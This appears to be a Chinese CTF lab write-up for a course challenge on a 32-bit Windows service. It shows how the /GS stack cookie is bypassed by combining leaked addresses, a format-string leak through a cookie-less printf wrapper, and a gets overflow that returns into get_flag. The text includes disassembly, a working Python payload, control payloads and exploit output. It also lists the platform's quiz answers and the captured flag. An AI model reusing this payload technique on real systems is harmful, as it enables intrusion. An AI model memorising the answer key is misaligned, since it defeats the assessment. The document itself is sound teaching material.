


# 6-4 系统层漏洞利用与逆向分析 · GS 缓冲区安全检查利用（G4：无 Cookie 薄包装的跨帧格式串泄漏 + `gets` 栈溢出）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 系统层漏洞利用与逆向分析-GS缓冲区安全检查利用-G4（sectionID `6699`，课程内 number 25，题目内部编号 `C031-G4-F`） |
| 分类 | Pwn / 逆向分析 / 系统层漏洞利用（Windows PE 32 位；薄包装格式串的跨帧信息泄漏 + `/GS` Cookie 精确回填 + `gets` 栈溢出） |
| 题目描述 | 靶机 `172.17.81.169:9999` 上运行一个 Windows 控制台服务，banner 会主动打印 `Buffer @ <addr>` 与 `Cookie : <hex>`；附件 `challenge.exe` 就是它的可执行文件。要求下载附件做本地逆向，找到程序中的漏洞，连接靶机**劫持控制流**，触发 `get_flag()` 函数取得**一次性凭证**（有效期 10 分钟），再拿凭证到实验环境里的 flag 兑换容器换取 flag。 |

Flag 题（questionID=9049）题干原文要点：

> * 运行题目的靶机地址：`172.17.81.169:9999`
> * 在"实验环境"中申请的容器运行 flag 兑换服务
>
> 附件中提供了运行在靶机上的 `challenge.exe`，请下载后进行本地逆向分析。
> 找到程序中的漏洞，连接靶机并劫持控制流，触发 `get_flag()` 函数以获取一次性凭证（有效期 10 分钟）。
>
> 使用 `nc` 连接靶机：
> ```
> nc 172.17.81.169:9999
> ```
>
> 成功获取一次性凭证后，在你自己的电脑上访问 flag 容器兑换 flag：
> ```
> curl "http://<Flag容器IP>:<port>/flag?token=<你的凭证>"
> ```

Note：本题与 6-1（`C031-G1-F`）、6-3（`C031-G3-F`）同属 **`C031` 系列**，防护组合一致：**`/GS` 开启、地址固定、无 DEP 考点**（`DllCharacteristics = 0x8000`，只有 `TERMINAL_SERVER_AWARE`，不含 `NX_COMPAT`）。三题的差别全在漏洞链上：

| 题目 | 格式串/危险读入的位置 | 绕过路径 |
| --- | --- | --- |
| 6-1（G1） | `buf2` 走 `gets`（溢出点），`buf1` 走有界读入后 **`printf(buf1)` 在同一个受保护帧内** | 用同帧格式串泄漏 `[EBP-4]` 的 Cookie → 回填 → 溢出 |
| 6-3（G3） | 函数指针 `[EBP-8] = 0x401020`，`call [EBP-8]` **早于** `__security_check_cookie` | 完全不碰 `[EBP-4]`，改写函数指针即可 |
| **6-4（G4，本题）** | 格式串被 `fgets` 读进 `buf2`，再交给**无 Cookie 的薄包装 `0x401020` 执行 `printf(buf2)`**（跨帧读幻影参数）；真正的溢出点是同一帧里的 **`gets(buf1)`** | 幻影参数跨到调用方帧读出**父帧 EBP**；banner 又泄漏 `buf1` 地址与全局 Cookie → 精确回填 → 溢出 |

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台 | VMCourse 国产化教学实训平台，课程 ID `1639`，本章节 `sectionID` `6699`（课程内 number 25）；平台账号与口令只保存在本地未跟踪的 `.local/` 目录（不入库），本文不记录任何凭据、cookie 或个人身份信息 |
| 题型 | 3 道单选（9035 / 9037 / 9039）+ 1 道多选（9041）+ 1 道 Flag 填空（9049），共 5 题；`newTestPaper?sectionID=6699` 返回 `isResubmit=false`、`answersTotal=5`，与题面一致 |
| 靶机实例 | envID `1203`（实验环境名 `C031-G4-F`），podID `rid73s7l6enlpvoo5mwj4804w`，容器名 `s-149899`，image `172.17.0.105:8083/t-11637/c031-g4-f:2026`；截图时 `state=Running`、`targetPorts=[22,80]`、过期时间 **2026-10-16 18:33:19** |
| 端口映射（实测 `portInfos` + 页面 tooltip） | `14644 → 22`（SSH）、**`14645 → 80`（flag 兑换服务）** |
| flag 兑换服务 | `http://172.17.0.13:14645/flag?token=<token>`（HTTP，返回 `text/plain`） |
| Pwn 靶机 | `172.17.81.169:9999`（**裸 TCP，非 HTTP**），实测 banner `Buffer @ 0019FDE4\r\nCookie : 7FBC5C9F\r\nEnter format: `，完整交互为 `Enter format:` → `Enter name:` 两段 |
| 附件 | `challenge.exe`：PE32 executable (console) Intel 80386（`coff-i386`），**116224 B**（题面附件表显示 113.5 K），MD5 **`87daf53365acd8fa7bd59e9bb95b9cd4`**（与任务书给定值逐字一致） |
| 本机工具 | 无 pwntools / pefile / Ghidra；用 Apple LLVM `objdump` 21.0.0 + 自写纯标准库 PE 解析（`pe_info.py`）+ Python 3.14 原生 `socket` / `struct` / `json` 完成全部利用与验证；截图用无头 Chrome（`playwright-core` 驱动系统已装 Chrome） |
| 脚本与日志 | `.local/process/6-4-scripts/`（`exploit.py`、`pe_info.py`、`render_make_64.py`、`mask_vmc_header_64.py`、`mask_qa_account_64.py`、`vmc_*.mjs`、`qa_shots2_64.mjs`）与 `.local/process/6-4-scripts/logs/`（每条命令一份原始输出） |
| 选择题判分 | **9035=C、9037=B、9039=D、9041=B、C、D（`num`=3）**，与 flag 题 9049 一起 5 条 `isCorrect` 全为 `true`；按仓库惯例本文不展开选择题解析，判定依据见 `.local/process/6-4-answers-rationale.md`（提交前落盘） |

## 解题过程

### 1. 附件核对与靶机 banner：两处主动泄漏（截图 01）

```console
$ md5 .local/process/6-4-scripts/files/challenge.exe
MD5 (challenge.exe) = 87daf53365acd8fa7bd59e9bb95b9cd4          # = 任务书值

$ python3 exploit.py probe        # 连 172.17.81.169:9999 读 banner，阶段1 回一个名字
Buffer @ 0019FDE4
Cookie : 7FBC5C9F
Enter format: hello
Enter name:
```

banner 里有两处**主动泄漏**，它们就是整条利用链的起点：

1. `Buffer @ 0019FDE4` —— 受保护函数里栈缓冲区 `buf1` 的**运行期地址**（静态分析确认 `buf1 = [EBP-0x144]`）；
2. `Cookie : 7FBC5C9F` —— 全局 `__security_cookie` 的**当前值**（`[0x41d040]`）。

于是本帧栈帧的关键坐标可以直接算出来：

```text
本帧 EBP = buf1 地址 + 0x144 = 0x0019FDE4 + 0x144 = 0x0019FF28
回填值   = 全局 Cookie ^ 本帧 EBP
```

两个与本题利用稳定性直接相关的实测规律（8 次独立连接）：

- **`Buffer` 地址恒定**：`10-probe` / `11-phantom-1p` / `12-phantom-4p` / 四条失败对照 / 正式利用，8 次连接全部是 `0019FDE4`，说明本题地址固定（`DllCharacteristics` 里也没有 `DYNAMICBASE`），偏移量可以写死；
- **`Cookie` 每次连接都不同**：`7FBC5C9F` → `D966EC14` → `DB2014B4` → `EF6EA6B8` → `845FE840` → `ECB73A4E` → `90041912` → `7A72DBF7`，说明它是每次进程启动随机化的全局值，而不是编译期常量——这正是"泄漏即绕过"成立的前提（不泄漏就没法算）。


### 2. 静态复核一：PE 头、唯一导出 `get_flag`、薄包装 `0x401020` 无任何 `/GS` 指令（截图 03）

```console
$ python3 pe_info.py files/challenge.exe        # 自写纯标准库 PE 解析（节选）
  "Machine": "0x14c",                           # i386
  "ImageBase": "0x400000",
  "DllCharacteristics": "0x8000",               # 仅 TERMINAL_SERVER_AWARE，无 NX_COMPAT(0x100)、无 DYNAMICBASE(0x40)
  "SecurityCookie_VA": "0x41d040",              # Load Config 目录登记 SecurityCookie
  "Exports": [{"name": "get_flag", "rva": "0x1000", "va": "0x401000"}],   # 唯一导出
  "strings_data": "0x41d000 \"Buffer @ %p\" | 0x41d010 \"Cookie : %08X\" | 0x41d020 \"Enter format: \" | 0x41d030 \"Enter name: \""

$ objdump -d --start-address=0x401020 --stop-address=0x401040 files/challenge.exe
00401020: 55                pushl %ebp
00401021: 8b ec             movl  %esp, %ebp
00401023: 8b 45 08          movl  0x8(%ebp), %eax          # 唯一实参 s
00401026: 50                pushl %eax
00401027: e8 44 01 00 00    calll 0x401170                 # printf
0040102c: 83 c4 04          addl  $0x4, %esp
0040102f: 5d                popl  %ebp
00401030: c3                retl
```

三条关键结论：

1. **薄包装 `0x401020` 一共只有 8 条指令，没有任何 `/GS` 指令**：没有 `mov eax,ds:0x41d040`、没有 `xor eax,ebp`、没有 `mov [ebp-4],eax`，也没有 `call __security_check_cookie`。它与 `void wrapper(char *s){ printf(s); }` 一一对应——**唯一的动作就是把实参当格式串交给 `printf`**。编译器不为它插 Cookie 的原因不是"它没调用危险函数"，而是**它没有任何受保护的局部对象（局部数组/缓冲区）**：`printf(fmt)` 是格式字符串漏洞（CWE-134），不是缓冲区溢出（对照：教学模型 Q1 的结论与本实证相反，见第 10 节）。
2. **`DllCharacteristics = 0x8000`**：只有 `TERMINAL_SERVER_AWARE`，**没有 `NX_COMPAT`（0x100）也没有 `DYNAMICBASE`（0x0040）**。本题考点不是 DEP；地址固定，所有目标地址都能直接写进 payload。
3. **唯一导出 `get_flag` 就在 `0x00401000`**，且它本身是一个**导入 thunk**：

```console
$ objdump -d --start-address=0x401000 --stop-address=0x401014 files/challenge.exe
00401000: 55                pushl %ebp
00401001: 8b ec             movl  %esp, %ebp
00401003: ff 15 30 61 41 00 calll *0x416130                 # getflag.dll!GetFlag → 打印一次性 token
00401009: 6a 00             pushl $0x0
0040100b: ff 15 08 60 41 00 calll *0x416008                 # KERNEL32!ExitProcess(0)
00401011: 90                nop
00401012: 5d                popl  %ebp
00401013: c3                retl
```

`get_flag()` 一进去就 `call dword ptr [0x416130]`（IAT 项对应导入表里的 `getflag.dll!GetFlag`）打印一次性凭证，紧接着 `ExitProcess(0)` 结束进程——**它不会返回**，所以返回地址槽之后再摆什么内容都不影响结果（这点在步骤 6 的正式利用里很关键）。

### 3. 静态复核二：`main@0x401040` 的 Cookie、双泄漏、`fgets(buf2)`、`call wrapper`、`gets(buf1)` 与 epilogue（截图 03）

```console
$ objdump -d --start-address=0x401040 --stop-address=0x401124 files/challenge.exe
00401040: 55                pushl %ebp
00401041: 8b ec             movl  %esp, %ebp
00401043: 81 ec 44 01 00 00 subl  $0x144, %esp              # 缓冲区 buf1 = [EBP-0x144]
00401049: a1 40 d0 41 00    movl  0x41d040, %eax          # 读全局 __security_cookie
0040104e: 33 c5             xorl  %ebp, %eax              # 与本帧 EBP 异或
00401050: 89 45 fc          movl  %eax, -0x4(%ebp)        # 存入 [EBP-4]
...
0040109e: 8d 85 bc fe ff ff leal  -0x144(%ebp), %eax
004010a4: 50                pushl %eax
004010a5: 68 00 d0 41 00    pushl $0x41d000               # "Buffer @ %p"   ← 泄漏①（&buf1）
004010aa: e8 c1 00 00 00    calll 0x401170                # printf
004010b2: 8b 0d 40 d0 41 00 movl  0x41d040, %ecx
004010b8: 51                pushl %ecx
004010b9: 68 10 d0 41 00    pushl $0x41d010               # "Cookie : %08X" ← 泄漏②（全局 Cookie）
004010be: e8 ad 00 00 00    calll 0x401170                # printf
...
004010c6: 68 20 d0 41 00    pushl $0x41d020               # "Enter format: "
004010cb: e8 a0 00 00 00    calll 0x401170                # printf
...
004010e4: e8 2c 33 00 00    calll 0x404415                # fgets(buf2=[EBP-0x44], 0x40, stdin)  ★ 阶段1（有界）
004010f0: e8 2b ff ff ff    calll 0x401020                # wrapper(buf2) → printf(buf2)         ★ 跨帧格式串
...
004010f8: 68 30 d0 41 00    pushl $0x41d030               # "Enter name: "
004010fd: e8 6e 00 00 00    calll 0x401170                # printf
...
0040110c: e8 0d 54 00 00    calll 0x40651e                # gets(buf1=[EBP-0x144])               ★ 阶段2（无界）
00401114: 33 c0             xorl  %eax, %eax
00401116: 8b 4d fc          movl  -0x4(%ebp), %ecx
00401119: 33 cd             xorl  %ebp, %ecx
0040111b: e8 8a 00 00 00    calll 0x4011aa                # __security_check_cookie
00401120: 8b e5             movl  %ebp, %esp
00401122: 5d                popl  %ebp
00401123: c3                retl

$ objdump -d --start-address=0x4011aa --stop-address=0x4011b8 files/challenge.exe
004011aa: 3b 0d 40 d0 41 00 cmpl  0x41d040, %ecx         # 与全局 __security_cookie 比较
004011b0: 75 01             jne   0x4011b3
004011b2: c3                retl                          # 相等 → 正常返回
004011b3: e9 7c 02 00 00    jmp   0x401434               # __report_gsfailure → 终止进程
```

**偏移推导（自己算，不照抄题面）**：

```text
缓冲区首址 buf1    = EBP - 0x144      （324 字节）
Cookie 槽 [EBP-4]  = EBP - 4
saved EBP  [EBP]   = EBP
返回地址   [EBP+4] = EBP + 4

buf1 首字节 → Cookie 槽   = 0x144 - 4 = 0x140 = 320
buf1 首字节 → saved EBP   = 0x144     = 324
buf1 首字节 → 返回地址    = 0x144 + 4 = 328
```

三条必须钉死的结论：

1. **Cookie 存的是 `全局 Cookie ^ 本帧 EBP`**（`401049` 读全局、`40104e` 异或 EBP、`401050` 写回 `[EBP-4]`）。所以回填时不能直接写泄漏出来的那个全局值，必须先把本帧 EBP 还原出来再异或一次——`EBP = buf1 + 0x144`，这一步的输入正是旁边那条 `Buffer @ %p` 泄漏；
2. **两段交互的性质完全不同**：`0x4010e4` 的 `fgets(buf2, 0x40, stdin)` 是**有界**读入（最多 63 字节 + `\0`），它只负责把格式串喂给薄包装；真正的溢出点是最后那次 **`gets(buf1)`**，长度完全由客户端决定（CWE-121）。这也是本题与 6-1 的"同一帧里既泄漏又溢出"最大的结构差异：格式串在薄包装帧里读幻影参数（步骤 4），溢出发生在 `main` 帧里（步骤 6）；
3. **校验时序在 `ret` 之前**：`401114`–`40111b` 先 `xor eax,eax`、`mov ecx,[ebp-4]`、`xor ecx,ebp` 还原 Cookie，再 `call 0x4011aa __security_check_cookie` 与全局值比较；不等就跳 `0x401434 __report_gsfailure`，进程被直接终止，**走不到 `ret`**（对照实验见步骤 5）。

另外记下 `printf` 自身的序言（步骤 4 要用）：

```console
$ objdump -d --start-address=0x401170 --stop-address=0x40117c files/challenge.exe
00401170: 55                pushl %ebp
00401171: 8b ec              movl  %esp, %ebp
00401173: 83 ec 08           subl  $0x8, %esp
00401176: 8d 45 0c           leal  0xc(%ebp), %eax        # va_list 起点 = [EBP_printf+0xc]
```

x86 cdecl 下可变实参走**栈**：`printf` 的 `[EBP+8]` 是格式串指针本身，**第 1 个"幻影参数"就是 `[EBP_printf+0xc]`**，即格式串指针之后的那个栈槽。

![静态确认：`md5` 与 PE 头（`DllCharacteristics 0x8000`、`SecurityCookie_VA 0x41d040`、唯一导出 `get_flag@0x401000`）、薄包装 `0x401020` 的 8 条指令（无任何 `/GS` 指令）、`main@0x401040` 的序言 / 双泄漏 / `fgets` / `call wrapper` / `gets` / epilogue、`printf@0x401170` 的 `lea eax,[ebp+0xc]` 与 `__security_check_cookie@0x4011aa`；真实命令回显的渲染稿（非终端实拍）](screenshots/03-静态确认-关键指令.png)

### 4. G4 考点实证：薄包装的幻影参数跨到调用方帧，第 1 个就是**父帧 EBP**（截图 01）

阶段 1 由 `fgets` 读入、由薄包装当格式串打印，所以只要回一个 `%p`，就能把 `printf` 眼中的"实参"按栈顺序读出来。两次独立连接实测：

```console
$ python3 exploit.py phantom
Buffer @ 0019FDE4
Cookie : D966EC14
Enter format: 0019FF28                              # 阶段1 输入 "%p"

Buffer @ 0019FDE4
Cookie : DB2014B4
Enter format: 0019FF28.004010F5.0019FEE4.006FC4B0   # 阶段1 输入 "%p.%p.%p.%p"
```

| 幻影参数 | 实测值 | 对应位置（帧算术） |
| --- | --- | --- |
| 第 1 个 | `0019FF28` | **父帧 EBP**（`buf1 + 0x144`）。`printf` 的 `[EBP_printf+0xc]` = wrapper 的 `[EBP_wrapper+0]`，正是 wrapper 序言 `push ebp` 保存的 `EBP_main` |
| 第 2 个 | `004010F5` | **返回地址**：`main` 中 `call 0x401020` 的下一条指令（`0x4010F0 + 5`），存在于 wrapper 帧 `[EBP_wrapper+4]` |
| 第 3 个 | `0019FEE4` | **`&buf2`** = `[EBP-0x44]`，即 wrapper 的实参槽（`0x4010ef push eax`） |
| 第 4 个 | `006FC4B0` | main 调用方的更上层栈槽（继续向高地址逐槽读） |

帧算术逐格核对（`EBP_printf = EBP_wrapper - 0xc`）：

```text
[EBP_printf+0x00] = EBP_wrapper          （printf 的 push ebp 保存）
[EBP_printf+0x04] = 0x0040102C           （printf 的返回地址）
[EBP_printf+0x08] = &buf2                （printf 的唯一实参：格式串指针）
va_list 起点 ↓
[EBP_printf+0x0c] = [EBP_wrapper+0x00] = EBP_main = 0019FF28   ← 第 1 个 %p
[EBP_printf+0x10] = [EBP_wrapper+0x04] = 004010F5              ← 第 2 个 %p
[EBP_printf+0x14] = [EBP_wrapper+0x08] = 0019FEE4 (&buf2)      ← 第 3 个 %p
[EBP_printf+0x18] = [EBP_wrapper+0x0c] = 006FC4B0              ← 第 4 个 %p
```

这一步是本题的**考点实证**，同时钉死三件事：

1. `[EBP_child+0]` 里存的是 `push ebp; mov ebp,esp` 压进去的**父帧 EBP**，顺序是 `[+0]=EBP_A`、`[+4]=返回地址`；
2. `printf(fmt)` 只传格式串时，`%p` 的"幻影参数"取自**调用方帧中格式串指针之后的栈内存**，按槽向后读（与寄存器无关）；
3. **薄包装没有 Cookie 这件事本身决定了本题的考点归属**：`/GS` 保护的是"函数自己的局部缓冲区"，而 wrapper 没有局部缓冲区，也就没有 Cookie 槽与校验；它的栈帧是"裸"的，`[EBP_child+0]` / `[+4]` / `[+8]` 被 `printf` 一路当参数读出去。也就是说 `/GS` 在 wrapper 里根本不会被触发——**要被泄漏的秘密不在 wrapper 自己的帧里，而在调用方的帧里**（即使编译器给 wrapper 也插了 Cookie，`[EBP+0]` 依然是 saved EBP、父帧 EBP 照样泄漏；所以根治手段是 `printf("%s", s)`，而不是指望 `/GS` 去管格式串）。这条链路的现实后果：一次 `%p` 就泄漏了 `main` 的 EBP，而 `main` 的 EBP 又是回填 Cookie 的必需品。

### 5. 失败对照：基线 + 三条，区分"被 `/GS` 拦住"与"过了 `/GS` 但没控制住"（截图 02）

同一脚本的 `attack` 分支按 variant 生成四条对照载荷（`python3 exploit.py attack <variant> <tag> <json>`，variant = `short` / `nocookie` / `off324` / `badret`），每条都**新建连接**、用当次 banner 重新计算 `EBP` 与 `stored`：

| 对照 | 阶段 2 载荷 | Cookie 槽（偏移 320） | 返回地址槽（偏移 328） | 结果 |
| --- | --- | --- | --- | --- |
| 基线：不发溢出载荷（短名字 `shortname`，9 B） | `b"shortname"` | — | — | 无 token，进程静默终止 |
| 失败对照①：不回填 Cookie | `b"A"*320 + b"A"*4 + b"B"*4 + p32(0x00401000)` | `AAAA`（覆盖） | `0x00401000`（正确） | 无 token，进程静默终止 |
| 失败对照②：Cookie 正确，但返回地址错放到偏移 324 | `b"A"*320 + p32(stored) + p32(0x00401000)` | `p32(stored)`（正确） | `00000000`（`gets` 的 NUL，错位） | 无 token，进程静默终止 |
| 失败对照③：Cookie 与偏移都对，目标地址非法 | `b"A"*320 + p32(stored) + b"B"*4 + p32(0xdeadbeef)` | `p32(stored)`（正确） | `0xdeadbeef`（非法） | 无 token，进程静默终止 |

三条对照各自排除一种可能：

- **① 证明 `/GS` 真的在工作**：Cookie 槽被 `AAAA` 顶掉，epilogue 还原出 `0x41414141 ^ EBP ≠ 全局 Cookie`，`0x4011b0` 的 `jne` 命中，跳到 `0x401434 __report_gsfailure` 终止进程——精心写在偏移 328 的 `0x00401000` **根本没被 `ret` 使用**；
- **② 证明偏移必须精确**：Cookie 回填正确、`/GS` 这次**通过了**，但 `0x00401000` 落进 saved EBP 槽（324），返回地址槽（328）里是 `gets` 写入的结尾 `\0`（`00000000`）⇒ `ret` 弹出空地址、访问违例崩溃；
- **③ 证明"控制流确实走到了 `ret`"**：Cookie 与偏移全对，只把目标换成非法地址 `0xdeadbeef`——同样没有 token、进程终止，但这次死亡原因是 **`ret` 弹出了 `0xdeadbeef`**。换句话说：**Cookie 校验已经通过、控制流已经离开 `__security_check_cookie` 走到 `ret`**，`/GS` 在这条链路上已被绕过。这条对照是判断"`/GS` 已被绕过、控制流确实走到了 `ret`"的直接证据，也是把"防护拦住"和"利用失败"分开的关键。

一条实测细节：四条对照在 socket 上的表现都是**没有后续输出、连接也不被主动关闭**（`close_reason` 全部是 `timeout`）。原因是 `__report_gsfailure` 走 `__fastfail` 直接终止进程，而外层服务不主动关连接；因此判断成功与否以"有没有 token 回显"为准，而不是以连接是否断开为准。

另一条与稳定性有关的细节：Cookie 每次连接随机，若 `stored` 的 4 个字节里出现 `0x00` / `0x0a`，`gets()` 会把载荷截断（NUL）或提前结束（换行）。脚本 `attack()` 内置了"换连接重试"逻辑（记录在 JSON 的 `attempts` 字段）——本次四条对照与正式利用**都是第 1 次尝试即命中干净字节**。


### 6. 正式利用：一次命中 `get_flag@0x401000`，取得一次性 token（截图 04）

四段布局（本机无 pwntools，脚本 `.local/process/6-4-scripts/exploit.py`，纯标准库 `socket` + `struct`）：

```python
RET_GETFLAG = 0x00401000                    # 导出表 get_flag：RVA 0x1000 + ImageBase 0x400000
buf1   = int(m.group(1), 16)                # banner: "Buffer @ %p"
cookie = int(m.group(2), 16)                # banner: "Cookie : %08X"
ebp    = (buf1 + 0x144) & 0xffffffff        # 本帧 EBP = buf1 + 0x144
stored = (cookie ^ ebp) & 0xffffffff        # 回填值 = 全局 Cookie ^ EBP（prologue 的逆运算）
payload = b"A"*320 + p32(stored) + b"B"*4 + p32(RET_GETFLAG)
```

栈布局逐格核对（`buf1 = [EBP-0x144]`）：

```text
偏移            长度  内容                作用
[0   .. 319]     320  b'A'*320           填满 buf1 = [EBP-0x144]
[320 .. 323]       4  p32(stored)        覆盖 [EBP-4] 的 Cookie 槽 ⇒ epilogue 还原后 == 全局 Cookie
[324 .. 327]       4  b'B'*4             saved EBP（内容任意）
[328 .. 331]       4  p32(0x00401000)    覆盖返回地址 ⇒ ret 跳进 get_flag

prologue 本帧写入： [EBP-4] = 全局 Cookie ^ EBP
epilogue 本帧还原： ecx = [EBP-4] ^ EBP = stored ^ EBP = 泄漏到的全局 Cookie  ← 与 cmp 的全局值相等 ✔
```

正式利用会话（载荷 332 字节）：

```console
$ python3 exploit.py attack ok EXPLOIT-1     # 单连接闭环：读 banner → 算 EBP/stored → 阶段1 → 阶段2 载荷
banner（原始）: Buffer @ 0019FDE4\r\nCookie : 7A72DBF7\r\nEnter format:
buf1          : 0x19fde4
EBP = buf1+0x144 : 0x19ff28
global cookie : 0x7a72dbf7
stored        : 0x7a6b24df
阶段1 输入 "ctrl1" → 回显 'ctrl1\r\nEnter name: '
阶段2 载荷 = b"A"*320 + p32(stored) + b"B"*4 + p32(0x00401000)   （332 字节）
             尾部 hex（偏移 316 起）: 41414141df246b7a4242424200104000

--- 靶机原始回显 ---
[+] Token (valid 10 min, one-time):
1792136477.HmJSVja9QvQ67TuJOvlrCCZu4mdFHU9jWOmJunUK2CdM6aJHT2OxuMW_d_gEzZ0aBep5HOhaZWofGeQQXMZnHA

[*] Run on YOUR machine to get the flag:
    curl "http://<flag-server-ip>:<port>/flag?token=1792136477.HmJS…ZnHA"
```

被覆盖的返回地址小端字节序为 `00 10 40 00`；通过 `/GS` 校验后 `ret` 弹出 `0x00401000`，进入 `get_flag()`（导入 thunk）：`call [0x416130]` 打印一次性凭证 → `call [0x416008] ExitProcess(0)` **直接结束进程**，因此不需要在返回地址之后布置"假返回地址"，也不会再回到 `main` 的 epilogue。


### 7. 用一次性 token 兑换 flag，以及兑换服务的失败对照（截图 05、05b）

token 有效期 10 分钟、单次可用，拿到后立刻兑换（端口映射实测 `14645 → 80`）：

```console
$ curl -sS --noproxy '*' -m 20 -i "http://172.17.0.13:14645/flag?token=1792136477.HmJS…ZnHA"
HTTP/1.1 200 OK
Date: Fri, 16 Oct 2026 07:41:57 GMT
Content-Length: 38
Content-Type: text/plain; charset=utf-8

vmc{zOpBlfLF80SJlq9QyR8TtpiFyn0nC9Rv}
```

`Content-Length: 38` = 37 字符 flag + 结尾换行。**关于靶机时钟偏差（`token from the future`）**：本批次 Lead 独立复核时记录过一个跨题现象——靶机时钟与 flag 兑换服务的时钟存在偏移（约 10–16 秒），token 刚签发就兑换会先返回 `403 invalid token: token from the future`，**处理办法是不换 token、等 10–20 秒后用同一枚 token 重试**（token 仍在 10 分钟有效期内、尚未被消费，重试不消耗它；Lead 在 6-3 上实测 +6 秒重试即 200）。本题自己的兑换记录里**没有**出现这条报错，是一次成功的：token 内嵌时间戳 `1792136477` = 2026-10-16 07:41:17 UTC，而兑换响应的 `Date: Fri, 16 Oct 2026 07:41:57 GMT`，即该枚 token 的时间戳比服务端时间**早 40 秒**（落在"过去"），所以首次请求即 200。也就是说：**时间戳校验是真实存在的，但偏移方向随实例/时刻而变；遇到 403 `token from the future` 时"等一会儿重试同一枚 token"是通用做法，不要重新利用、也不要以为 payload 错了。**

兑换服务的失败对照（每次都用刚兑换过的 token 与各种坏输入）：

| 输入 | 响应 | 含义 |
| --- | --- | --- |
| 刚兑换过的同一枚 token | `403` `token already used`（`Content-Length: 19`） | 合法但已使用（单次可用记账） |
| `token=not-a-token` | `403` `invalid token: invalid token format`（36） | 格式非法 |
| 完全不带 `token` 参数（`/flag`） | `400` `missing token`（14） | 参数缺失 |
| `token=1792136477.AAAA`（时间戳合法、签名长度不符） | `403` `invalid token: signature length mismatch: got 3, want 64`（57） | 签名长度校验（base64url 应为 64 字符） |

四种失败说明兑换服务至少有**格式校验 / 签名长度校验 / 一次性使用记账 / 参数存在性校验**四层判断，且校验顺序在实测中是「格式 → 签名长度 → 一次性使用」。即使攻击者能控制靶机进程，拿到的也只是一枚短时、单次、且在服务端留下使用记录的凭证。


### 8. 提交答案与平台判分（截图 06、08），实例与端口映射核对（截图 07）

`POST /api/student/submitAnswers`（multipart，多个 `answers` 字段），**每个 `answers` 字段的值必须是外层包了 questionID 的 JSON 字符串**：

```bash
curl -sS -k --noproxy '*' -m 60 -b .local/vmc-cookies.txt \
  -X POST "$VMC_BASE_IP/api/student/submitAnswers" \
  -F 'sectionID=6699' \
  -F 'answers={"questionID": 9035, "answer": "{\"answer\": [\"C\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 9037, "answer": "{\"answer\": [\"B\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 9039, "answer": "{\"answer\": [\"D\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 9041, "answer": "{\"answer\": [\"B\",\"C\",\"D\"], \"num\": 3}"}' \
  -F 'answers={"questionID": 9049, "answer": "{\"num\": 3, \"answer\": [\"\", \"\", \"vmc{zOpBlfLF80SJlq9QyR8TtpiFyn0nC9Rv}\"]}"}' \
  -F 'contestMode=0'
# HTTP 200；{"code":0,"msg":"success"}
```

